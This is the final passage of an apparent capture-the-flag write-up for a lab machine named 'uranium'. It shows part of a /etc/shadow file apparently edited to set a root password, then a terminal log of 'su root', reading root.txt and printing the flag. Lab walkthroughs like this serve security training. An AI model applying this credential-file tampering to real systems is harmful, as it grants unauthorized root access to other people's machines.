 ```
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::

```
save and do su root with our password P@ssword123!

```
kral4@uranium:/home/kral4$ su root
Password: 
root@uranium:/home/kral4# cd /root
root@uranium:~# ls
htmlcheck.py  root.txt
root@uranium:~# cat root.txt
thm{814980(root Flag)a699cd}
root@uranium:~# 


```
Voila !!!
thanks
